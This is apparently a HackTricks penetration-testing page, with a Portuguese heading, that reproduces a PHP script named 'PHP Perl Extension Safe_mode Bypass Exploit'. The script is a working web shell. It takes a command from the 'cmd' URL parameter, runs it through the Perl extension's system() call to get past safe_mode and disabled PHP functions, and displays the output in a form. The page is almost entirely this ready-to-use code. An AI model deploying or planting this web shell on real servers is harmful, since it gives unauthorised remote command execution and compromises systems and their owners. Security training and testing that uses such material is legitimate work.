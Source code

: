 {{#include ../../../../banners/hacktricks-training.md}}

# Exploit de Bypass do Safe_mode da Extensão PHP Perl

De [http://blog.safebuff.com/2016/05/06/disable-functions-bypass/](http://blog.safebuff.com/2016/05/06/disable-functions-bypass/)
```php
<?php

#########################################################
##----------------------------------------------------###
##----PHP Perl Extension Safe_mode Bypass Exploit-----###
##----------------------------------------------------###
##-Author:--NetJackal---------------------------------###
##-Email:---nima_501[at]yahoo[dot]com-----------------###
##-Website:-http://netjackal.by.ru--------------------###
##----------------------------------------------------###
#########################################################

if(!extension_loaded('perl'))die('perl extension is not loaded');
if(!isset($_GET))$_GET=&$HTTP_GET_VARS;
if(empty($_GET['cmd']))$_GET['cmd']=(strtoupper(substr(PHP_OS,0,3))=='WIN')?'dir':'ls';
$perl=new perl();
echo "<textarea rows='25' cols='75'>";
$perl->eval("system('".$_GET['cmd']."')");
echo "&lt;/textarea&gt;";
$_GET['cmd']=htmlspecialchars($_GET['cmd']);
echo "<br><form>CMD: <input type=text name=cmd value='".$_GET['cmd']."' size=25></form>"

?>
```
{{#include ../../../../banners/hacktricks-training.md}}
